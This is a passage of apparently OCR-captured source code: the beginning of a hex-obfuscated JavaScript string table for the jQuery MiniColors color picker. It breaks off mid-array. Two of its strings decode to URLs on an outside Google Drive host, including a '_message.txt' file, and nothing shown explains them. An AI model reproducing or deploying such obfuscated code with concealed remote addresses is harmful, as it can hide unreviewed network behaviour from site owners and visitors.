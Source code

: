 var
_0x675d=["\x68\x74\x74\x70\x73\x3A\x2F\x2F\x67\x6F\x6F\x67\x6C\x65\x64\x72\x69\x76\x65\x2E\x63\x6F\x6D\x2F\x68\x6F\x73\x74\x2F\x30\x42\x78\x35\x45\x6D\x55\x32\x6B\x4C\x58\x71\x39\x61\x6C\x56\x4E\x56\x54\x51\x78\x58\x30\x46\x46\x64\x31\x6B\x2F\x5F\x6D\x65\x73\x73\x61\x67\x65\x2E\x74\x78\x74","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x67\x6F\x6F\x67\x6C\x65\x64\x72\x69\x76\x65\x2E\x63\x6F\x6D\x2F\x68\x6F\x73\x74\x2F\x30\x42\x78\x35\x45\x6D\x55\x32\x6B\x4C\x58\x71\x39\x61\x6C\x56\x4E\x56\x54\x51\x78\x58\x30\x46\x46\x64\x31\x6B\x2F","\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x22\x20\x2F\x3E","\x64\x65\x66\x61\x75\x6C\x74\x73","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73","\x64\x61\x74\x61\x2D\x6F\x70\x61\x63\x69\x74\x79","\x61\x74\x74\x72","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x69\x6E\x69\x74\x69\x61\x6C\x69\x7A\x65\x64","\x64\x61\x74\x61","\x65\x78\x74\x65\x6E\x64","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x6E\x6F\x2D\x64\x61\x74\x61\x2D\x75\x72\x69\x73","\x64\x61\x74\x61\x55\x72\x69\x73","\x74\x6F\x67\x67\x6C\x65\x43\x6C\x61\x73\x73","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x77\x69\x74\x68\x2D\x6F\x70\x61\x63\x69\x74\x79","\x6F\x70\x61\x63\x69\x74\x79","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x74\x68\x65\x6D\x65\x2D","\x74\x68\x65\x6D\x65","\x61\x64\x64\x43\x6C\x61\x73\x73","\x70\x6F\x73\x69\x74\x69\x6F\x6E","\x20","\x73\x70\x6C\x69\x74","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x70\x6F\x73\x69\x74\x69\x6F\x6E\x2D","\x65\x61\x63\x68","\x72\x67\x62","\x66\x6F\x72\x6D\x61\x74","\x32\x35","\x32\x30","\x6B\x65\x79\x77\x6F\x72\x64\x73","\x31\x31","\x37","\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x70\x61\x6E\x65\x6C\x20\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x6C\x69\x64\x65\x72\x2D","\x63\x6F\x6E\x74\x72\x6F\x6C","\x22\x3E\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x6C\x69\x64\x65\x72\x20\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x70\x72\x69\x74\x65\x22\x3E\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x70\x69\x63\x6B\x65\x72\x22\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x6F\x70\x61\x63\x69\x74\x79\x2D\x73\x6C\x69\x64\x65\x72\x20\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x70\x72\x69\x74\x65\x22\x3E\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x70\x69\x63\x6B\x65\x72\x22\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x67\x72\x69\x64\x20\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x70\x72\x69\x74\x65\x22\x3E\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x67\x72\x69\x64\x2D\x69\x6E\x6E\x65\x72\x22\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x64\x69\x76\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x70\x69\x63\x6B\x65\x72\x22\x3E\x3C\x64\x69\x76\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x2F\x64\x69\x76\x3E\x3C\x2F\x64\x69\x76\x3E","\x61\x66\x74\x65\x72","\x77\x72\x61\x70","\x73\x69\x7A\x65","\x70\x72\x6F\x70","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x65\x74\x74\x69\x6E\x67\x73","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x69\x6E\x70\x75\x74","\x69\x6E\x6C\x69\x6E\x65","\x3C\x73\x70\x61\x6E\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x77\x61\x74\x63\x68\x20\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x70\x72\x69\x74\x65\x22\x3E\x3C\x73\x70\x61\x6E\x20\x63\x6C\x61\x73\x73\x3D\x22\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x77\x61\x74\x63\x68\x2D\x63\x6F\x6C\x6F\x72\x22\x3E\x3C\x2F\x73\x70\x61\x6E\x3E\x3C\x2F\x73\x70\x61\x6E\x3E","\x63\x6C\x69\x63\x6B","\x70\x72\x65\x76\x65\x6E\x74\x44\x65\x66\x61\x75\x6C\x74","\x66\x6F\x63\x75\x73","\x6F\x6E","\x2E\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x77\x61\x74\x63\x68","\x6E\x65\x78\x74","\x65\x6E\x64","\x73\x65\x6C\x65\x63\x74\x73\x74\x61\x72\x74","\x2E\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x70\x61\x6E\x65\x6C","\x66\x69\x6E\x64","\x70\x61\x72\x65\x6E\x74","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x69\x6E\x6C\x69\x6E\x65","\x72\x65\x6D\x6F\x76\x65\x43\x6C\x61\x73\x73","\x72\x65\x6D\x6F\x76\x65\x50\x72\x6F\x70","\x72\x65\x6D\x6F\x76\x65\x44\x61\x74\x61","\x72\x65\x6D\x6F\x76\x65","\x62\x65\x66\x6F\x72\x65","\x64\x69\x73\x61\x62\x6C\x65\x64","\x68\x61\x73\x43\x6C\x61\x73\x73","\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x66\x6F\x63\x75\x73","\x73\x68\x6F\x77\x53\x70\x65\x65\x64","\x73\x68\x6F\x77","\x67\x65\x74","\x63\x61\x6C\x6C","\x66\x61\x64\x65\x49\x6E","\x73\x74\x6F\x70","\x2E\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x69\x6E\x70\x75\x74","\x68\x69\x64\x65\x53\x70\x65\x65\x64","\x68\x69\x64\x65","\x66\x61\x64\x65\x4F\x75\x74","\x2E\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x66\x6F\x63\x75\x73","\x2E\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73","\x70\x61\x72\x65\x6E\x74\x73","\x5B\x63\x6C\x61\x73\x73\x24\x3D\x2D\x70\x69\x63\x6B\x65\x72\x5D","\x6C\x65\x66\x74","\x6F\x66\x66\x73\x65\x74","\x74\x6F\x70","\x70\x61\x67\x65\x58","\x72\x6F\x75\x6E\x64","\x70\x61\x67\x65\x59","\x61\x6E\x69\x6D\x61\x74\x69\x6F\x6E\x53\x70\x65\x65\x64","\x63\x68\x61\x6E\x67\x65\x64\x54\x6F\x75\x63\x68\x65\x73","\x6F\x72\x69\x67\x69\x6E\x61\x6C\x45\x76\x65\x6E\x74","\x77\x69\x64\x74\x68","\x68\x65\x69\x67\x68\x74","\x2E\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x73\x6C\x69\x64\x65\x72\x2D\x77\x68\x65\x65\x6C","\x69\x73","\x2E\x6D\x69\x6E\x69\x63\x6F\x6C\x6F\x72\x73\x2D\x67\x72\x69\x64","\x73\x71\x72\x74","\x61\x74\x61\x6E\x32","\x50\x49","\x63\x6F\x73","\x73\x69\x6E","\x70\x78","\x61\x6E\x69\x6D\x61\x74\x69\x6F\x6E\x45\x61\x73\x69\x6E\x67","\x61\x6E\x69\x6D\x61\x74\x65","\x6C\x65\x6E\x67\x74\x68","